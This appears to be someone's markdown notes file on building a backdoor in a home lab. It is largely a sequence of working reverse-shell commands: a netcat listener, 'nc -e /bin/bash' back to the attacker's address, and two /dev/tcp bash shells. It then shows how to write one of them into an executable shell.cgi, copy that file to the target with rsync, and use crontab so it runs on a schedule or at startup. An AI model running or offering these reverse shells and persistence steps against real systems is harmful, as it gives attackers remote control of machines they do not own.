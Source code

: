 # Notes for the backdoor
Will most likely need to make use of crontab so the file automatically gets executed at a time or at startup. 

HM = Host machine
VM = Virtual machine that is being attacked

# 1 Netcat method
This creates a reverse shell with netcat

HM
1. HM setup listening port: `nc –l 4444`
2. Get the hosts ip address: `ifconfig | grep --color netmask`
	it will be something like `192.168.x.xxx`

3. gain remote access to the VM, via ssh or ...?
4. On Linux VM, setup the reverse shell with hosts IP address: `nc 192.168.x.xxx -e /bin/bash`

5. on HM type any bash command and hit enter


# TODO
how to set the permission of the executable shell script on the host machine?
	maybe just by getting the host to click download.
	
rsync --chmod=u+rwx,g+rwx,o+rwx /path/to/file server:/path/to/file


# 2 without Netcat installed
- // 0<&196; open file descriptor and redirect it to stdin. 196 is a random number
- // exec 196<>/dev/tcp/192.168.0.xxx/4444; read-write file descriptor,  https://unix.stackexchange.com/questions/164391/how-does-cat-file-work
- // sh <&196 receive commands from host machine, display output on target
- // sh >&196 receive commands on target, redirect output to the host machine
- // sh 2>&196 redirect stderr to the host
- // sh <&196 1>&196 2>&196 allow commands output to display on the target machine
on HM: `nc –l 4444`
on VM: `0<&196;exec 196<>/dev/tcp/192.168.0.xxx/4444; sh <&196 1>&196 2>&196`

# 3 even better method
https://medium.com/@hackbotone/shellshock-attack-on-a-remote-web-server-d9124f4a0af3
- // >& <location> redirects stdout and stderr to be redirected to <location>
- // 0<&1 redirects std in back to the shell
on HM: `nc –l 4444`
on VM: `/bin/bash -i >& /dev/tcp/192.168.0.xxx/4444 0<&1`
copy it to the remote machine: `rsync -av shell.cgi sparky@kali:/home/sparky/desktop`	// change to use your machines details instead of sparky@kali						

## Elaborate a little bit --> create the script, set permissions
on HM: `echo "/bin/bash -i >& /dev/tcp/192.168.0.xxx/4444 0<&1" > shell.cgi; chmod 777 shell.cgi`

## copy the script to the remote machine
rsync -av shell.cgi sparky@kali:/home/sparky/desktop

## now the remote machine just needs to run shell.cgi
Sounds like Crontab could do this, or https://serverfault.com/questions/364040/how-to-execute-a-process-on-remote-linux-machine-without-ssh
./shell.cgi
